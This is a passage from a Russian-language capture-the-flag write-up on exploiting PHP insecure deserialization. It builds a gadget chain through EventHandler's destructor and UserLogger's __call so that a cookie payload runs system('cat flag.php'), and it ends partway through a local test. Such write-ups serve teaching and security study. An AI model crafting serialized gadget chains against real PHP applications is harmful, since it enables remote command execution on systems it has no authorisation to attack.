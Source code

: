 Теперь давайте подробнее посмотрим исходники, чтобы понять, какие гаджеты можно сконструировать. Видим, что в итоге на странице печатаются содержимое атрбиутов `name`, `age` и `city`.

Атрибут `name` не подходит для экплуатации, т.к. дальше он попадает в метод `handleData()` класса `UserNameHandler`, где нет магических методов. Ничего не сделаешь.

Атрибут `age` подходит для эксплуатации, т.к. при конструировании инстанса класса `User` с ним не происходит никаких действий, а эначит можно передать туда что угодно, например, инстанс класса `EventHandler`.

Класс `EventHandler` требует при конструировании 2 аргумента: какое-то событие или команду, и, наконец, какой-то объект, у которого есть метод `handleEvent()`.

Смотря в код, не видно никакого класса с методом `handleEvent()`. Однако, из документации PHP известно, что [магический метод `__call()` вызывается, когда происходит обращение к недоступным методам класса](https://www.php.net/manual/en/language.oop5.overloading.php#object.call).
Здесь как раз есть класс `UserLogger` с определенным методом `__call()`.
Далее становится очевидно, что при конструировании надо передать массив, но непонятно какой именно.

Вглянем на вызов метода `handleEvent()`. Как вместо него вызывать `system()`?
После долгих поисков стало понятно, что надо передавать ассоциативный массив. Вот пример, который запускается в любом онлайн PHP интерпретаторе:

```php
<?php
   $foo = array('handleEvent' => 'system');
   $aga = serialize($foo);
   echo $aga . "\n";
   $foo['handleEvent']('date');
?>
```

Результат:
```
a:1:{s:11:"handleEvent";s:6:"system";}
Thu Apr  4 20:23:58 IST 2024
```

Аналогичным образом будет работать такой массив и в нашем случае.
В итоге, нужно передать в куку такой сериализованный объект, который после десериалиации должен выглядеть примерно так:

```php
$user = new User('Ivan', new EventHandler("cat flag.php", new UserLogger(array('handleEvent' => 'system'))), 'ololo');
```

При выходе из области видимости у экземпляра класса `EventHandler` вызовется `__desctruct()`, где вместо `handleEvent()` вызовется `system()` с любой командой, которая была передана при конструировании.

Проверим локально. Скопируем код в отдельный файл, вручную состряпаем сериализованный пейлоад и запустим с командой `date`:

```php
<?php
error_reporting(E_ALL & ~E_WARNING & ~E_NOTICE & ~E_DEPRECATED & ~E_STRICT);

class User {
    public $name;
    public $age;
    public $city;

    public function __construct($name, $age, $city) {
        $handler = new UserNameHandler();
        $this->name = $handler->handleData($name);
        $this->age = $age;
        $this->city = $city;
    }
}
```